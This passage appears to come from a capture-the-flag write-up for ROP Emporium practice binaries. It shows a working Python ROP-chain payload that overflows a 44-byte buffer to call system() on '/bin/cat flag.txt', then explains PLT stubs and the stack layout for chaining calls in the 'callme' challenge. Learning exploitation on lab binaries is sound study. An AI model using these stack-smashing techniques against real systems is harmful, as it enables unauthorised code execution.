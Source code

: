 ```bash
End of assembler dump.
```
There is a call to `system().` The system function allows the program to call [operating systems commands](https://www.geeksforgeeks.org/system-call-in-c/). The system function accepts a pointer to a string containing the command to be executed. This function call will be useful for reading the flag. I only need to find a location in memory to pass to the function as an argument to pass to the function. I used edb to find where in memory the string `/bin/cat flag.txt` existed. 

{{< image src="/img/rop1/edb.png" alt="Under construction" position="center" style="border-radius: 8px;" >}}


I then had everything needed to create the ROP chain. 

```python
import struct
import sys
buf=b'\x41'*44
buf+= struct.pack('<L',0x80483e0) # call to system
buf+=b'\x42'*4 # fake return address
buf+= struct.pack('<L',0x804a030) # arg 1 / location of string
buf+=b'\n'
out= bytes(buf)
sys.stdout.buffer.write(out)

```
Feeding this output into the vulnerable program results in the flag being outputted. 

# callme 

The offset is once again 44. For this binary, we will attempt to call multiple functions. The challenge explicitly states which function calls and which arguments are needed. I begin by finding the address of all the functions I wish to call. This is done with the `info functions` command used earlier in gdb. Care is taken to use the `@plt` version of the function. 

A trip to [stack overflow](https://stackoverflow.com/questions/5469274/what-does-plt-mean-here) and a watch of a [LiveOverflow video](https://www.youtube.com/watch?v=kUk5pw4w0h4)
 helped me understand what the @plt meant. Plt stands for procedure linkage table. The procedure linkage table is used when the compiler dynamically links an external library. The location of the function within the dynamically linked library that needs to be called cannot be known at compile time. As a result, the location of that function in the library is resolved when the binary is executed. The `@plt` version of the program is a stub that eventually leads to the calling of the actual desired function. 

Now I can think about how the stack should look when making multiple function calls. The ultimate goal is to make the stack look like so:
```
----------------------
|  etc   ...         |
----------------------
|  next function call|
----------------------
|  arg 3             |
----------------------
|  arg 2             |
----------------------
|  arg 1             |
----------------------
|  return address    |
----------------------
|  function call     |
----------------------
```